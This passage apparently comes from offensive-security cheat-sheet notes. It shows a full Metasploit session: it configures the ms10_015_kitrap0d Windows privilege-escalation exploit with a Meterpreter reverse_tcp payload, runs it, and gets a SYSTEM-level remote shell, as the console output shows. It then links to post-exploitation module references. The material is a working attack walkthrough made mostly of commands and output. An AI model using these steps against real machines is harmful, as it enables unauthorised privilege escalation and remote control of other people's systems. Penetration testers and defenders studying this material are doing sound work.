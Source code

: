 Example:

msf exploit(ms10_002_aurora)> use exploit/windows/local/ms10_015_kitrap0d
msf exploit(ms10_015_kitrap0d)> set SESSION 1
msf exploit(ms10_015_kitrap0d)> set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(ms10_015_kitrap0d)> set LHOST 192.168.1.5
msf exploit(ms10_015_kitrap0d)> set LPORT 4443
msf exploit(ms10_015_kitrap0d)> show options

Module options (exploit/windows/local/ms10_015_kitrap0d):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (accepted: seh, thread, process, none)
   LHOST     192.168.1.5      yes       The listen address
   LPORT     4443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 (x86)


msf exploit(ms10_015_kitrap0d) > exploit

[*]  Started reverse handler on 192.168.1.161:4443 
[*]  Launching notepad to host the exploit...
[+]  Process 4048 launched.
[*]  Reflectively injecting the exploit DLL into 4048...
[*]  Injecting exploit into 4048 ...
[*]  Exploit injected. Injecting payload into 4048...
[*]  Payload injected. Executing exploit...
[+]  Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*]  Sending stage (769024 bytes) to 192.168.1.71
[*]  Meterpreter session 2 opened (192.168.1.161:4443 -> 192.168.1.71:49204) at 2014-03-11 11:14:00 -0400

meterpreter> getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter>


Nice.


[ + ] Windows / Linux Post Modules (Meterpreter Enumeration)
https://www.offensive-security.com/metasploit-unleashed/post-module-reference/

[ + ] Not gonna lie, just check this out: for Windows Post:
https://www.offensive-security.com/metasploit-unleashed/windows-post-gather-modules/

[ + ] Same applies for Linux Post:
https://www.offensive-security.com/metasploit-unleashed/linux-post-gather-modules/

[ + ] Interested in Powershell and Meterpreter?
https://www.trustedsec.com/blog/interactive-powershell-sessions-within-meterpreter/